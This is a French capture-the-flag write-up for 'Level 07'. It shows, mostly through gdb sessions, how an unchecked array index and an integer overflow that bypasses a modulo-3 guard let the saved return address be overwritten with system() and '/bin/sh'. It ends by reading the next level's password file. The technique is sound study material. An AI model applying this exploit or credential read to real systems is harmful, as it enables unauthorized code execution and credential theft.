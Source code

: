 # Level 07

Le programme permet de stocker des nombres dans un tableau et d'y accéder par la suite avec la compréhension de commande `store`, `read` et `quit`.

Le tableau des nombres est limiter à 100, mais le programme ne verifie pas l'index choisi par l'utilisateur pour enregistrer ou lire des nombre dans le tableau, cela nous permet de manipuler la mémoire.

Nous pouvons cependant pas écrire à tous les index, car certain son protégé par la condition `nb % 3 == 0`.

Notre but est donc d'essayer de réecrire EIP par l'adresse de la fonction `system("/bin/sh")`.

Nous devons récupérer l'adresse de l'EIP sous la forme d'un index du tableau.

```shell
~ gdb level07
(gdb) disas main
Dump of assembler code for function main:
   0x08048723 <+0>:	push   %ebp
   0x08048724 <+1>:	mov    %esp,%ebp
[...]
   0x08048928 <+517>:	mov    %eax,(%esp)
   0x0804892b <+520>:	call   0x80486d7 <read_number>		<--- Breakpoint
   0x08048930 <+525>:	mov    %eax,0x1b4(%esp)
---Type <return> to continue, or q <return> to quit---^CQuit
(gdb) b *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd700:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd6f8, args:
 Locals at 0xffffd6f8, Previous frame's sp is 0xffffd700
 Saved registers:
  ebx at 0xffffd6ec, ebp at 0xffffd6f8, esi at 0xffffd6f0, edi at 0xffffd6f4, eip at 0xffffd6fc
(gdb) p/d 0xffffd6fc
$1 = 4294956796
(gdb) info registers
eax            0xffffd534	-10956
[...]
(gdb) p/d 0xffffd534
$2 = 4294956340
(bc) 4294956796 - 4294956340
456
(bc) 456 / 4
114
(gdb) c
Continuing.
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) p/a 4158936339
$3 = 0xf7e45513 <__libc_start_main+243>
```

L'index de l'EIP est donc 114, le problème c'est que `114 % 3 = 0`, il faut donc trouver un autre index pour écrire sur l'eip.

Nous pouvons contourner ce problème avec un `int overflow`.

```shell
(bc) 4294967296 / 4
1073741824
(bc) 1073741824 + 114
1073741938
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd700:
 eip = 0x804892b in main; saved eip 0x2a
[...]
(gdb) p/d 0x2a
$4 = 42
(gdb) p system
$5 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p/d 0xf7e6aed0
$6 = 4159090384
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) p/d 0xf7f897ec
$7 = 4160264172
(gdb) quit
~ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```



